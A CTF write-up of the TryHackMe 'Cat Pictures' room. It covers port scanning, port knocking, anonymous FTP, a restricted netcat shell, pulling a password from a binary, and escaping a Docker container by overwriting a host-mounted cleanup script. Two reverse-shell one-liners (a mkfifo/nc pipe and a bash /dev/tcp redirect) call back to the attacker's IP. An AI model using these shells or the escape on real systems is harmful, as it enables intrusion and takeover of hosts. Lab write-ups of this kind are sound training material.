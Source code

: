 ```yaml
---
title: Cat Pictures
date: 2023-08-07 12:00:00
categories: [CTF, TryHackMe]
tags: [docker,port-knocking]     # TAG names should always be lowercase
image: 
    path: /assets/cat-pictures/cropcat.jpeg
---
```

Link to room: [Cat Pictures](https://tryhackme.com/room/catpictures) 

## Enumeration

Our initial run of `nmap` gives us a small attack surface:

```console 
┌──(user㉿kali-linux-2022-2)-[~]
└─$ nmap -sC -sV 10.10.94.199
Starting Nmap 7.94 ( https://nmap.org ) at 2023-08-06 20:08 EDT
Nmap scan report for 10.10.94.199
Host is up (0.087s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 37:43:64:80:d3:5a:74:62:81:b7:80:6b:1a:23:d8:4a (RSA)
|   256 53:c6:82:ef:d2:77:33:ef:c1:3d:9c:15:13:54:0e:b2 (ECDSA)
|_  256 ba:97:c3:23:d4:f2:cc:08:2c:e1:2b:30:06:18:95:41 (ED25519)
8080/tcp open  http    Apache httpd 2.4.46 ((Unix) OpenSSL/1.1.1d PHP/7.3.27)
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
|_http-server-header: Apache/2.4.46 (Unix) OpenSSL/1.1.1d PHP/7.3.27
|_http-title: Cat Pictures - Index page
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 31.89 seconds
```

## Port Knocking

Visiting the site on `8080` we find a phpBB instance with one message containing a not-so-subtle hint that we’ll need to use port-knocking. 

![Screenshot 2023-08-06 at 8.18.16 PM.png](/assets/cat-pictures/php.png)

We `apt install knockd` to get the `knock` client and call it with the “magic numbers” provided:

`knock 10.10.94.199 1111 2222 3333 4444`

## Initial Access

Running `nmap` again after knocknig we find an ftp site that allows anonymous login:

```console
└─$ nmap -sC -sV 10.10.94.199                                                                           
Starting Nmap 7.94 ( https://nmap.org ) at 2023-08-06 20:18 EDT
Nmap scan report for 10.10.94.199
Host is up (0.087s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.6.1.1
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 ftp      ftp           162 Apr 02  2021 note.txt
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 37:43:64:80:d3:5a:74:62:81:b7:80:6b:1a:23:d8:4a (RSA)
|   256 53:c6:82:ef:d2:77:33:ef:c1:3d:9c:15:13:54:0e:b2 (ECDSA)
|_  256 ba:97:c3:23:d4:f2:cc:08:2c:e1:2b:30:06:18:95:41 (ED25519)
8080/tcp open  http    Apache httpd 2.4.46 ((Unix) OpenSSL/1.1.1d PHP/7.3.27)
|_http-server-header: Apache/2.4.46 (Unix) OpenSSL/1.1.1d PHP/7.3.27
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
|_http-title: Cat Pictures - Index page
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

Logging in to the ftp site as anonymous yields one file, `note.txt` with a clue about how to move forward. 

```console
┌──(user㉿kali-linux-2022-2)-[~]
└─$ cat note.txt
In case I forget my password, I'm leaving a pointer to the internal shell service on the server.

Connect to port 4420, the password is [redacted].
- catlover
```

If we try to `ssh` to port 4420 it won’t connect, so we’ll use netcat to make a plain TCP connection. With the credentials supplied above we land in a heavily restricted shell.

```console
┌──(user㉿kali-linux-2022-2)-[~]
└─$ nc 10.10.94.199 4420
INTERNAL SHELL SERVICE
please note: cd commands do not work at the moment, the developers are fixing it at the moment.
do not use ctrl-c
Please enter password: [redacted]
Password accepted
```


## Escalation #1

Enumerating a bit we find there is almost nothing to look at, except for one file `runme` in our catlover’s directory. We have permissions to files in this directory so we assume that our account is catlover. 

```bash
ls -la /home/catlover
total 28
drwxr-xr-x 2 0 0  4096 Apr  3  2021 .
drwxr-xr-x 3 0 0  4096 Apr  2  2021 ..
-rwxr-xr-x 1 0 0 18856 Apr  3  2021 runme
```
{: .nolineno }

We can’t run or even examine this file with our current shell……..

```console
runme
THIS EXECUTABLE DOES NOT WORK UNDER THE INTERNAL SHELL, YOU NEED A REGULAR SHELL.

cat runme
THIS EXECUTABLE DOES NOT WORK UNDER THE INTERNAL SHELL, YOU NEED A REGULAR SHELL.
```

so it’s time to upgrade by starting a new listener and call it with  `rm -f /tmp/b; mkfifo /tmp/b; /bin/sh -i 2>&1 0</tmp/b | nc 10.6.1.1 4445 1>/tmp/b`

Back in our new shell we return to examine `runme`. The `strings` command isn’t available in our shell. We could download the file and inspect it locally but it’s not too large so we’ll just use `cat` to see what we can see.  `cat runme`

![runme](/assets/cat-pictures/Screenshot.png)


Scanning a bit we quickly find the string table near the beginning of the binary, and one string in particular that looks like a password.

Executing `runme` with the proper password drops an ssh key in home folder.

```console
# ./runme
Please enter yout password: [redacted]
Welcome, catlover! SSH key transfer queued!
```

We can download this key to our attacker machine or just copy and paste it into a new file. We’ll need to change permissions on the key before we use it: 

`chmod 600 id_rsa`

And we can SSH into the box with `ssh -i id_rsa [catlover@10.10.94.199](mailto:catlover@10.10.94.199)`

## Escalation #2

We find ourselves in a Docker container. We’ve achieved root access, but only retrieved the first flag. Clearly the second flag is on the Docker host machine. 

#### 🐰 Rabbit Hole: Enumerate MariaDB

We find database credentials for MariaDB in the phpBB configuration file. We should enumerate while we’re here. 

`mysql --host mariadb --user=bn_phpbb --password bitnami_phpbb`

Searching through the DB we find the schema for the forum and a test schema. We inspect tables for users, posts, private messages ans drafts but find nothing of value. The database engine is running on a different IP than we are, so we run `system` commands to examine that environment, but this does not lead us out of Docker. 

### Escape the Docker Container

We have a script `clean.sh` in `/opt/clean` . Using `mount` we determine that this folder is mounted from the host OS.

```console
(remote) root@7546fa2336d6:/opt/clean# mount
[...]
/dev/xvda1 on /bitnami/phpbb type ext4 (rw,relatime,errors=remount-ro,data=ordered)
/dev/xvda1 on /opt/clean type ext4 (rw,relatime,errors=remount-ro,data=ordered)
/dev/xvda1 on /etc/resolv.conf type ext4 (rw,relatime,errors=remount-ro,data=ordered)
/dev/xvda1 on /etc/hostname type ext4 (rw,relatime,errors=remount-ro,data=ordered)
/dev/xvda1 on /etc/hosts type ext4 (rw,relatime,errors=remount-ro,data=ordered)
[...]
(remote) root@7546fa2336d6:/opt/clean#
```

#### 🐰 Rabbit Hole: Two Shells scenario

We have a shell inside and outside of the container, and there are some exploits in this scenario [as documented on HackTricks](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-security/docker-breakout-privilege-escalation#privilege-escalation-with-2-shells-and-host-mount). Unfortunately our host shell does not have access to the shared mount point to execute scenario #1, and we can’t run `ps` to execute scenario #2.  

Turning our attention back to `clean.sh` we note that it simply empties the `/tmp` directory. 

```bash
#!/bin/bash

rm -rf /tmp/*
```
{: .nolineno }

Adding a file to our local `/tmp` directory and waiting just a few minutes (this is a CTF after all…) we see that the `clean.sh` script isn’t executing against our filesystem in the container. If it’s being called on the host side, this would be a path to escape the container. 

Let’s try sticking a reverse shell in there just in case:

`echo "bash -i >& /dev/tcp/10.6.1.1/4446 0>&1" > clean.sh`

Waiting another minute or two rewards us with a shell triggered by root on the docker host. We find our second flag at `/root` as usual. 

Thanks go out to [gamercat](https://tryhackme.com/p/gamercat) for a fun box!